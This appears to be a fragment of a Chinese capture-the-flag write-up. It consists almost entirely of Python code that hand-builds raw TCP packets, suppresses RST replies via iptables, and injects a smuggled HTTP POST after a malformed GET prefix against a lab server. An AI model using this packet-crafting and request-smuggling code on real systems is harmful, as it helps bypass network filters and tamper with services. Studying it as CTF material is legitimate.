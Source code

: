 ```python
    daddr = socket.inet_aton(dstip)
    checksum=calc_checksum(struct.pack('!4s4sBBH',saddr,daddr,0,socket.IPPROTO_TCP,tcplen)+data1+data2+payload)
    data2=struct.pack('!HH',checksum,0)
    return data1+data2

srcip='192.168.24.4'

dstip='192.168.23.1'
srcport=random.randint(10000,20000)#no port reuse
dstport=18082
payload = b'GET / HTTP\x00\x00'
#iptables -A OUTPUT -p tcp --sport 10000:20000 --tcp-flags RST RST -j DROP

# s = socket.socket(socket.AF_PACKET, socket.SOCK_RAW)
s = socket.socket(socket.AF_PACKET, socket.SOCK_RAW, socket.htons(0x0800))
s.bind(("hgovpn-guest",0))


ip = make_ip(socket.IPPROTO_TCP, srcip, dstip,tlen=len(payload))
tcp = make_tcp(srcport, dstport, payload,srcip,dstip)
packet = ip +tcp + payload
s.send(packet)

#response, addr = s.recvfrom(65535)
#response_id = struct.unpack('!H', response[4:6])

while True:
    data,fr=s.recvfrom(65536)
    if len(data)<35:
        continue
    flag=data[33]
    if flag!=0x12:#SYN+ACK
        continue
    payload=b'GET / HTTP\x00\x00'+b'POST / HTTP/1.1\r\nHost: 192.168.23.1:18080\r\n'
    payload+=b"Content-Length: 100\r\n"
    payload+=(b"Content-Type: application/x-www-form-urlencoded\r\n")
    payload+=(b"\r\n")
    payload+=(b"211:114514\r\n")
    ackseq=struct.unpack('!L',data[24:28])[0]
    ip=make_ip(socket.IPPROTO_TCP,srcip,dstip,tlen=len(payload))
    tcp=make_tcp(srcport,dstport,payload,srcip,dstip,seq=1,ackseq=ackseq+1,ack=True,syn=False)
    packet=ip+tcp+payload
    s.send(packet)

    print(data.hex())

```

## 0x12 为什么要打开 /flag 😡
